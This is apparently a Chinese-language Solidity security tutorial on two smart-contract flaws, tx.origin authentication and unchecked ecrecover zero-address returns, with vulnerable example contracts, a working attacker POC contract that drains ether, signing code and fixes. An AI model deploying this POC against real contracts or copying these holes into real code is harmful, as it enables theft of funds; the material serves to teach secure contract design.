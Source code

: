 ### 1. tx.origin使用错误

tx.origin是Solidity的一个全局变量，它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址。在智能合约中使用此变量进行身份验证会使合约容易受到类似网络钓鱼的攻击。
有关进一步阅读，请参阅[Stack Exchange
Question](https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin),[Peter
Venesses博客](https://vessenes.com/tx-origin-and-ethereum-oh-my/)和[Solidity
-
tx.origin攻击](https://medium.com/coinmonks/solidity-tx-origin-attacks-58211ad95514)。

-   案例

``` {.solidity}
contract Phishable {
    address public owner;

    constructor () public {
        owner = msg.sender ; 
    }

    function () public payable {} // collect ether

    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        _recipient.transfer(this.balance); 
    }
}
```

该合约有三个函数：constructor构造函数，指定合约owner；fallback函数，通过添加payable关键字以便接收用户转账；withdrawAll函数，对tx.origin进行判断，如果tx.origin是owner，则将合约地址所拥有的ether发送到\_recipient中。

现在，一个攻击者创建了下列合约:

``` {.solidity}
pragma solidity ^0.4.22;
//设置原合约接口，方便调用函数
interface Phishable {
    function owner() external returns (address);
    function withdrawAll(address _recipient) external;
}
//漏洞证明合约
contract POC {
    address owner;
    Phishable phInstance;
    
    constructor() public {
        owner = msg.sender;
    }
    
    modifier onlyOwner() {
        require(owner==msg.sender);
        _;
    }
    //指向原合约地址
    function setInstance(address addr) public onlyOwner {
        phInstance = Phishable(addr);
    }
    
    function getBalance() public onlyOwner {
        owner.transfer(address(this).balance);
    }
    
    function attack() internal {
        address phOwner = phInstance.owner();
        if(phOwner == msg.sender){ 
            phInstance.withdrawAll(owner);            
        } else {
            owner.transfer(address(this).balance);
        }
    }
    
    function() external payable {
        attack();
    }
}
```

攻击者诱使原合约(Phishable.sol)的owner发送ether到攻击合约(POC.sol)地址，然后调用攻击合约的fallback函数，执行attack()函数，此时`phOwner == msg.sender`，将会调用原合约的withdrawAll()函数，程序执行进入原合约，此时msg.sender是攻击合约的地址，tx.origin是最初发起交易的地址，即原合约的owner，`require(tx.origin == owner);`条件满足，`_recipient.transfer(this.balance);`可以执行，即将原合约地址里的ether转给攻击者。

-   漏洞修复

tx.origin不应该用于智能合约的授权。
这并不是说永远不应该使用tx.origin变量。
它在智能合约中确实有一些合法的用例。
例如，如果想要拒绝外部合约调用当前合约，他们可以通过require(tx.origin ==
msg.sender)实现。 这可以防止使用中间合约来调用当前合约。

-   参考链接：https://blog.sigmaprime.io/solidity-security.html\#tx-origin

### 2. ecrecover 未作0地址判断

​ `keccak256()` 和  `ecrecover()`都是内嵌的函数， `keccak256()` 可以用于计算公钥的签名， `ecrecover()`可以用来恢复签名公钥。传值正确的情况下，可以利用这两个函数来验证地址。

    //ecrecover接口，利用椭圆曲线签名恢复与公钥相关的地址，错误返回零。
    ecrecover(bytes32 hash, uint8 v, bytes32 r, bytes32 s) returns (address) 
    
    --------------------------------------------------------------
    bytes32 hash = keccak256(_from,_spender,_value,nonce,name);
    if(_from != ecrecover(hash,_v,_r,_s)) revert();

​ 当`ecrecover`传入错误参数（例如_v = 29,），函数返回0地址。如果合约函数传入的校验地址也为零地址，那么将通过断言，导致合约逻辑错误。

    function transferProxy(address _from, address _to, uint256 _value, uint256 _feeMesh,
        uint8 _v,bytes32 _r, bytes32 _s) public transferAllowed(_from) returns (bool){
    
        ...
        
        bytes32 h = keccak256(_from,_to,_value,_feeMesh,nonce,name);
        if(_from != ecrecover(h,_v,_r,_s)) revert();
        
        ...
        return true;
    }

​ 函数`transferProxy`中，如果传入的参数`_from`为0，那么`ecrecover`函数因为输入参数错误而返回0值之后，`if`判断将通过，从而导致合约漏洞。

``` {.solidity}
pragma solidity ^0.4.4;

contract Decode{
  //公匙：0x60320b8a71bc314404ef7d194ad8cac0bee1e331
  //sha3(msg): 0x4e03657aea45a94fc7d47ba826c8d667c0d1e6e33a64a036ec44f58fa12d6c45 (web3.sha3("abc");)
  //签名后的数据：0xf4128988cbe7df8315440adde412a8955f7f5ff9a5468a791433727f82717a6753bd71882079522207060b681fbd3f5623ee7ed66e33fc8e581f442acbcf6ab800

  //验签数据入口函数
  //bytes memory signedString =hex"f4128988cbe7df8315440adde412a8955f7f5ff9a5468a791433727f82717a6753bd71882079522207060b681fbd3f5623ee7ed66e33fc8e581f442acbcf6ab800";
  function decode(bytes signedString) public pure returns (address){

    bytes32  r = bytesToBytes32(slice(signedString, 0, 32));
    bytes32  s = bytesToBytes32(slice(signedString, 32, 32));
    byte  v = slice(signedString, 64, 1)[0];
    return ecrecoverDecode(r, s, v);
  }

  //将原始数据按段切割出来指定长度
  function slice(bytes memory data, uint start, uint len) internal pure returns (bytes){
    bytes memory b = new bytes(len);

    for(uint i = 0; i < len; i++){
      b[i] = data[i + start];
    }

    return b;
  }

  //使用ecrecover恢复公匙
  function ecrecoverDecode(bytes32 r, bytes32 s, byte v1) internal pure returns (address addr){
     uint8 v = uint8(v1) + 27;
     addr = ecrecover(0x4e03657aea45a94fc7d47ba826c8d667c0d1e6e33a64a036ec44f58fa12d6c45, v, r, s);
  }

  //bytes转换为bytes32
  function bytesToBytes32(bytes memory source) internal pure returns (bytes32 result) {
    assembly {
        result := mload(add(source, 32))
    }
  }
}
```

​ 函数 `decode()`传入经过签名后的数据，用于验证返回地址是否是之前用于签名的私钥对应的公钥地址。以太坊提供了`web3.eth.sign`方法来对数据生成数字签名。上面的签名数据可以通过下面的js代码获得：

    //初始化基本对象
    var Web3 = require('web3');
    var web3 = new Web3(new Web3.providers.HttpProvider("http://localhost:8545"));
    
    var account = web3.eth.accounts[0];
    var sha3Msg = web3.sha3("abc");
    var signedData = web3.eth.sign(account, sha3Msg);
    
    console.log("account: " + account);
    console.log("sha3(message): " + sha3Msg);
    console.log("Signed data: " + signedData);

​ js代码运行结果如下：

    $ node test.js
    account: 0x60320b8a71bc314404ef7d194ad8cac0bee1e331
    sha3(message): 0x4e03657aea45a94fc7d47ba826c8d667c0d1e6e33a64a036ec44f58fa12d6c45
    Signed data: 0xf4128988cbe7df8315440adde412a8955f7f5ff9a5468a791433727f82717a6753bd71882079522207060b681fbd3f5623ee7ed66e33fc8e581f442acbcf6ab800

-   漏洞修复
    对0x0地址做过滤，例如：
```solidity
function transferProxy(address _from, address _to, uint256 _value, uint256 _feeMesh,
    uint8 _v,bytes32 _r, bytes32 _s) public transferAllowed(_from) returns (bool){

    ...
    require(_from != 0x0);  // 待校验的地址不为0
    bytes32 h = keccak256(_from,_to,_value,_feeMesh,nonce,name);
    if(_from != ecrecover(h,_v,_r,_s)) revert();
    
    ...
    return true;
}
```
-   参考资料
    -   [transferProxy-keccak256](https://github.com/sec-bit/awesome-buggy-erc20-tokens/blob/master/ERC20_token_issue_list_CN.md#a12-transferproxy-keccak256)
    -   [approveProxy-keccak256](https://github.com/sec-bit/awesome-buggy-erc20-tokens/blob/master/ERC20_token_issue_list_CN.md#a13-approveproxy-keccak256)